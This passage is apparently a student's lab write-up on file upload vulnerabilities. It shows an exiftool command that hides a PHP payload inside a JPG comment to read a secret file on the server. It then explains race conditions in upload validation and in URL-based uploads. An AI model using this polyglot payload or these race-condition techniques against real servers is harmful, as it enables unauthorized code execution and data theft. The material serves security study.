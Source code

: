 When i tried to upload a simple modified `.php` file into an `.jpg` file, it did not work, so, if i try to embed a comment into a `.jpg` file and then upload that file, i get this:

I will use `exiftool` for it, the following command is what i used:

`exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" cat.jpg -o carlos.php`

I used a cat image i downloaded, embedded the `php` malicious code and now, i uploaded it into the web server:


![](Pasted%20image%2020240923161046.png)

If i go to the path, i get this:
![](Pasted%20image%2020240923161122.png)

And, as we can see, we can read the content, it is highlighted between START and END:
![](Pasted%20image%2020240923161213.png)


## Exploiting file upload race conditions

Modern frameworks are more battle-hardened against these kinds of attacks. They generally don't upload files directly to their intended destination on the filesystem. Instead, they take precautions like uploading to a temporary, sandboxed directory first and randomizing the name to avoid overwriting existing files. They then perform validation on this temporary file and only transfer it to its destination once it is deemed safe to do so.

That said, developers sometimes implement their own processing of file uploads independently of any framework. Not only is this fairly complex to do well, it can also introduce dangerous race conditions that enable an attacker to completely bypass even the most robust validation.

For example, some websites upload the file directly to the main filesystem and then remove it again if it doesn't pass validation. This kind of behavior is typical in websites that rely on anti-virus software and the like to check for malware. This may only take a few milliseconds, but for the short time that the file exists on the server, the attacker can potentially still execute it.

These vulnerabilities are often extremely subtle, making them difficult to detect during `blackbox` testing unless you can find a way to leak the relevant source code. 

### Race conditions in URL-based file uploads

Similar race conditions can occur in functions that allow you to upload a file by providing a URL. In this case, the server has to fetch the file over the internet and create a local copy before it can perform any validation.

As the file is loaded using HTTP, developers are unable to use their framework's built-in mechanisms for securely validating files. Instead, they may manually create their own processes for temporarily storing and validating the file, which may not be quite as secure.

#### Race conditions in URL-based file uploads - Continued

For example, if the file is loaded into a temporary directory with a randomized name, in theory, it should be impossible for an attacker to exploit any race conditions. If they don't know the name of the directory, they will be unable to request the file in order to trigger its execution. On the other hand, if the randomized directory name is generated using pseudo-random functions like `PHP's uniqid()`, it can potentially be brute-forced.
